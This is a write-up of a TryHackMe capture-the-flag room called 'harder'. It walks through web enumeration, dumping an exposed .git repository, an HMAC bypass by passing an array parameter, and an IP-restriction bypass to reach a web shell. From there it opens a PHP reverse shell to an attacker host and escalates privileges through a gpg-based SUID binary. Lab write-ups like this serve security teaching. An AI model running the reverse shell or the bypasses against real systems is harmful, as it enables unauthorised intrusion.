

# TryHackMe - harder

## Enumeration

I start with a regular nmap scan to see which ports are open to us.

`nmap -sS -sV -Pn <IP>`


We can see two open ssh services and a webserver on port 80.
I started to enumerate the webserver using FFUF and came across a `phpinfo.php` file which gives us information about the installed PHP version and more.

However, this did not help me at the point and I looked at the website using Burp further.
Here I found a domain and subdomain.


So I entered the domain in the `/etc/hosts` file and started to enumerate again with FFUF.
We see a page with a login to **Harder Corp. - Password Manager**.


I tried to manually exploit the login first with SQLi but FFUF gave me some interesting results which I concentrated on.

```
ffuf -w <WORDLIST> -u http://pwd.harder.local/FUZZ -ic

50x.html                [Status: 200, Size: 494, Words: 74, Lines: 22, Duration: 95ms]
auth.php                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 153ms]
.git                    [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 232ms]	
.gitignore              [Status: 200, Size: 27, Words: 1, Lines: 3, Duration: 154ms]
index.php               [Status: 200, Size: 19926, Words: 526, Lines: 24, Duration: 983ms]
secret.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 725ms]
```

Interesting, we can see that there is still a git repository here.
Let's take a closer look at this.
With the tool [GitTools](https://github.com/internetwache/GitTools) I downloaded the .git repository and could look at the commits.

`./gitdumper.sh http://pwd.harder.local/.git/ ./dumped/`


Let's see what commits are there.

`git log --all`



With the `extractor.sh` of the `GitTools` you can easily extract all files from the repository from all commits.


So, let's start to have a closer look at the code.

In the file `auth.php` we find the simple credentials `admin:admin` to the web-password manager.
When we log in we only see a message *extra security in place. our source code will be reviewed soon ...* .

OK, so the trick must be somewhere else.
I inspected the source code and the git-repository.
The gap was in the file `hmac.php`.

```php
cat auth.php

<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```

We can interact with three GET parameters here:
`n`,`h` and `host`.
While searching if it is somehow possible to bypass the `hash_hmac` function I found the following post:
https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up .

So if we call `hmac.php?n[]=a&host=test&h=43b0cef99265f9e34c10ea9d3501926d27b39f57c6d674561d8ba236e7a819fb` we see that we have successfully bypassed the *extra security check* because we don't get a fail message anymore.
We pass the parameters with the values to `index.php` and we can see an entry in the web password manager.


We are shown a new subdomain `shell.harder.local` and credentials.
We enter the new subdomain in `/etc/hosts` and navigate to the page.
We see again a login that looks like the previous one but behind it is probably the **Harder Corp. - Web Shell**.


We enter the credentials from before and immediately see that we are dealing with an IP restriction and so cannot easily access it.

**"Your IP is not allowed to use this webservice. Only 10.10.10.x is allowed."**

The IP restriction is quickly bypassed with the Burp extension.
How to use the extension you can read here:
https://medium.com/r3d-buck3t/bypass-ip-restrictions-with-burp-suite-fb4c72ec8e9c

If we have set the plugin correctly and set an IP like `10.10.10.10`, we get to the web-shell and a small test confirms that we can issue system commands here.


We open a netcat on our attacker machine `nc -nlvp 9876` and try some reverse shells.
I used the following reverse shell:
`php -r '$sock=fsockopen("<ATTACKER_IP>",9876);exec("sh <&3 >&3 2>&3");'`

And there it is,our reverse shell!


## Privelege Escalation #1

Well, now to the Privelege escalation!
The Privelege Escalations were done quite fast in contrast to the web-part.
I first started to enumerate the system manually but `linpeas.sh` quickly showed me what we were looking for.
The file `/etc/periodic/15min/evs-backup.sh` contains the password for the user `evs`.

```bash
/www/shell $ cat /etc/periodic/15min/evs-backup.sh
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "<REDACTED>"
```
We connect as user `evs` via SSH and get the first flag.


## Privelege Escalation #2
A search for SUID binaries returned an interesting result.

```bash
find / -perm /4000 2>>/dev/null
/usr/local/bin/execute-crypted
```

In the same directory is a shell script:

```bash
#!/bin/sh

if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi
```

Using `linpeas.sh` I found another file `/var/backup/root@harder.local.pub` which we need in a moment.

The solution was to import the public key from root, encrypt a file with our command for root and execute it with the `execute-crypted` binary as root.


